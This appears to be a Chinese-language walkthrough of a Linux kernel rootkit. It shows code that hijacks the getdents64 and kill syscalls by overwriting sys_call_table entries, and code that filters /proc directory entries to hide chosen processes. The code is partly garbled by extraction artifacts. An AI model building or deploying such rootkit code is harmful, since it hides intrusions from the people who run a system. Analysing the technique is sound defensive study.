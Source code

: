 **系统调用劫持**

通过系统调用表分别获取`__NR_getdents64`和`__NR_kill`地址。先保存，以备后续恢复。

```php
orig\_getdents64 = (tt\_syscall)\_\_sys\_call\_table\[\_\_NR\_getdents64\];  
orig\_kill = (tt\_syscall)\_\_sys\_call\_table\[\_\_NR\_kill\];
```

再把自定义的处理函数地址分别指向`__NR_getdents64`和`__NR_kill`，这样就把两个系统调用劫持了。

\_\_sys\_call\_table\[\_\_NR\_getdents64\] = (unsigned long) hacked\_getdents64;  
\_\_sys\_call\_table\[\_\_NR\_kill\] = (unsigned long) hacked\_kill;

**自定义函数**

hacked\_getdents64

这个函数首先获取了传递给 getdents64 系统调用的参数。

```php
struct linux\_dirent \*dirent = (struct linux\_dirent \*) pt\_regs->si;  
struct linux\_dirent64 \*dir, \*kdirent, \*prev = NULL;  
kdirent = kzalloc(ret, GFP\_KERNEL);  
err = copy\_from\_user(kdirent, dirent, ret);
```

然后，它调用了 orig\_getdents64 函数来获取真正的 getdents64 的返回值，

```php
 int ret \= orig\_getdents64(pt\_regs), err;
```

接下来，它检查了内核中的一些参数，比如当前进程是否是 proc 进程。

```php
 struct inode \*d\_inode;  
 d\_inode \= current\->files\->fdt\->fd\[fd\]\->f\_path.dentry\->d\_inode;  
 if (d\_inode\->i\_ino \== PROC\_ROOT\_INO && !MAJOR(d\_inode\->i\_rdev)
```

最后，它对传递回来的目录信息进行了修改，以实现隐藏特定进程的效果。

 while (offset &lt; ret)  
 {  
 dir \\= (void \*)kdirent + offset;  
 ​  
 if ((proc &amp;&amp; is\_invisible(simple\_strtoul(dir-&gt;d\_name, NULL, 10))))  
 {  
 if (dir \\== kdirent)  
 {  
 ret -= dir-&gt;d\_reclen;  
 memmove(dir, (void \*)dir + dir-&gt;d\_reclen, ret);  
 continue;  
 }  
 prev-&gt;d\_reclen += dir-&gt;d\_reclen;  
 }  
 else  
 {  
 prev \\= dir;  
 }  
 offset += dir-&gt;d\_reclen;  
 }

最后，它将修改后的目录信息复制回用户空间，返回真正的返回值。

 copy\_to\_user(dirent, kdirent, ret);